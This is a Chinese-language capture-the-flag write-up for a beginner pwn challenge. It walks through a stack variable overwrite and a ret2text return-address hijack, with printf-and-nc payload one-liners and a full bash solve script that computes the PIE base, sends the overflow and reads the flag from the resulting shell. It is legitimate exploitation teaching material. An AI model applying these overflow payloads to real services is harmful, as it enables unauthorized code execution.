


# 亦步亦趋

先用 `nc` 。

```bash
scetayh@yuprae-gentoo ~ $ nc nc1.ctfplus.cn 23273
Welcome to the world of Pwn !
Here I will show you how to reslove the problem. Follow me,lets begin!

==============================================
[Level 1] Memory Roaming: Local Variable Overwriting
==============================================
In C, local variables are stored on the stack in order.
target: using `gets` to change `magic` = 0xdeadbeef.

[-] the address of buffer `buf` is about : 0x7ffe2cf19a40
[-] the address of variables `magic` is about : 0x7ffe2cf19a5c
Now input your Payload:
> 
```

输出了伪界面。这是一个在栈上覆盖局部变量的题目，缓冲区 `buf` 的地址是 0x7ffe2cf19a40 ，变量 `magic` 的地址是 0x7ffe2cf19a5c ，很明显后者比前者要高。两个地址相减，得到 0x1c ，也就是 28 。这就说明 buf 开始往后数 28 个字节正好是 magic 所在的位置。**所以第一步要填入28个任意字节。**

然后程序又要：

```c
magic = 0xdeadbeef;
```

（魔数？）

右边改写成小端序（这些要点实际上在输入错误之后的 hint 中有提示）是 `ef be ad de`。所以 **第二步要填入 `\xef\xbe\xad\xde`** 。


Control-C 后回到提示符。我偏向于使用 Bash shell 的 `printf` 命令：

```bash
scetayh@yuprae-gentoo ~ $ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\n' | nc nc1.ctfplus.cn 23273
Welcome to the world of Pwn !
Here I will show you how to reslove the problem. Follow me,lets begin!

==============================================
[Level 1] Memory Roaming: Local Variable Overwriting
==============================================
In C, local variables are stored on the stack in order.
target: using `gets` to change `magic` = 0xdeadbeef.

[-] the address of buffer `buf` is about : 0x7fff4670de00
[-] the address of variables `magic` is about : 0x7fff4670de1c
Now input your Payload:
> [+] Congratulations! You have overwrited the magic and understand what is liitle-endian
```

其实也可以这么写：

```bash
{
    for ((i=0; i<28; i++)); do
        printf 'A'
    done

    printf '\xef\xbe\xad\xde'

    printf '\n'
} | nc nc1.ctfplus.cn 23273
```

或者：

```bash
{
    printf 'A%.0s' {1..28}
    printf '\xef\xbe\xad\xde'
    printf '\n'
} | nc nc1.ctfplus.cn 23273
```

这样优雅一点，不过 `A` 只有 28 个，不写循环也不碍事。

本层级通过。

```
==============================================
[Level 2] The real challenge: control flow! (Ret2Text)
==============================================
This time , you need to change the return address
I have prepared backdoor for you. 'win', It's addr about: 0x55dcb891c209
Now input your final Payload:
> 
```

查看 `win` ：






一旦 `win` 结束，就会运行一个 Shell 。把返回地址改成后门 `win` 的地址，这样等某个特定函数结束的时候就会运行 `win` 了。

这次应该填充过去的是：

1. `buf` 本身及后方空隙，共 28 字节（ Level 1 里面算过了）；
2. `magic` ，C int 类型 4 字节，目前共 28 + 4 = 32 字节；
3. 对齐用空隙，0 字节，因为 32 字节已经是 8 的整数倍了，无需对齐，目前共 32 + 0 = 32 字节；
4. 保存的 `rdp` ，8 字节，因为这是 64 位应用程序，目前共 32 + 8 = 40 字节。

综上所述， **第一步要填充 40 个字节** 。那第二步输出 `win` 的地址（ IDA 查到是 `0x1209` ）就行了，但是考虑到 stack 要对齐，这里用 `retn` 作为对齐手段让 RSP 多移动 8 字节：

```
.text:000000000000148C    retn
```

**第二步 `retn`** ，**第三步 `win`** ，**第四步换行符**。

因为需要测算 PIE base ，所以这里用 FIFO 对流进行数据提取。总脚本如下：

```bash
#!/usr/bin/env bash

HOST="$1"
PORT="$2"

TMPDIR=$(mktemp -d)
TMP=$(mktemp)
IN=$TMPDIR/in
OUT=$TMPDIR/out

mkfifo "$IN" "$OUT"

cleanup() {
    kill "$nc_pid" 2>/dev/null
    wait "$nc_pid" 2>/dev/null
    rm -rf "$TMPDIR"
}

trap cleanup EXIT

nc "$HOST" "$PORT" <"$IN" >"$OUT" &
nc_pid=$!

exec 3>"$IN"
exec 4<"$OUT"

print_upper_a() {
    local n=$1
    local s

    printf -v s '%*s' "$n" ''
    s=${s// /A}

    printf '%s' "$s"
}

print_deadbeef() {
    printf '\xef\xbe\xad\xde' # 小端序
}

print_u64() {
    local x=$1
    local i
    local byte
    local esc

    for ((i = 0; i < 8; i++)); do # (64 bit) / (8 bit/byte) = 8 byte
        byte=$(( (x >> (8 * i)) & 0xff )) # 每次把目标字节移动到最低 8 位，然后用 & 0xff 把它取出来
        printf -v esc '\\%03o' "$byte"
        printf '%b' "$esc"
    done
}

# Level 1

while IFS= read -r line <&4; do
    printf '%s\n' "$line"

    if [[ "$line" == *'address of buffer `buf` is about : 0x'* ]]; then
        buf_hex=${line##*0x}
        buf=$((16#$buf_hex))
    fi

    if [[ "$line" == *'address of variables `magic` is about : 0x'* ]]; then
        buf_hex=${line##*0x}
        magic=$((16#$buf_hex))
    fi

    if [[ "$line" == *'Now input your Payload:'* ]]; then
        break
    fi
done

offset=$((magic - buf))

{
    print_upper_a "$offset"
    print_deadbeef
    # printf '\n' # 巨坑！！！不能加！！！留在 stdin 里会被第 2 层读到！
} >"$TMP"
cat "$TMP" >&3

# Level 2

while IFS= read -r line <&4; do
    printf '%s\n' "$line"

    if [[ "$line" == *"It's addr about: 0x"* ]]; then
        win_hex=${line##*0x}
        win=$((16#$win_hex))
        ret=$((win - 0x1209 + 0x148C))
    fi

    if [[ "$line" == *'Now input your final Payload:'* ]]; then
        break
    fi
done

{
    print_upper_a 40
    print_u64 "$ret"
    print_u64 "$win"
    printf '\n'
} >"$TMP"

cat "$TMP" >&3

# 从此刻开始进入了 Shell 环境
printf 'cat flag\n' >&3
printf 'exit\n' >&3

# 继续打印服务器剩余输出
cat <&4
```

运行：

```bash
scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week1/pwn/_2 $ bash solve.sh nc1.ctfplus.cn 13647
Welcome to the world of Pwn !
Here I will show you how to reslove the problem. Follow me,lets begin!

==============================================
[Level 1] Memory Roaming: Local Variable Overwriting
==============================================
In C, local variables are stored on the stack in order.
target: using `gets` to change `magic` = 0xdeadbeef.

[-] the address of buffer `buf` is about : 0x7ffd21e06a80
[-] the address of variables `magic` is about : 0x7ffd21e06a9c
Now input your Payload:
> [+] Congratulations! You have overwrited the magic and understand what is liitle-endian

==============================================
[Level 2] The real challenge: control flow! (Ret2Text)
==============================================
This time , you need to change the return address
I have prepared backdoor for you. 'win', It's addr about: 0x556754c98209
Now input your final Payload:
> Congratulations! You have hijacked the control flow!
```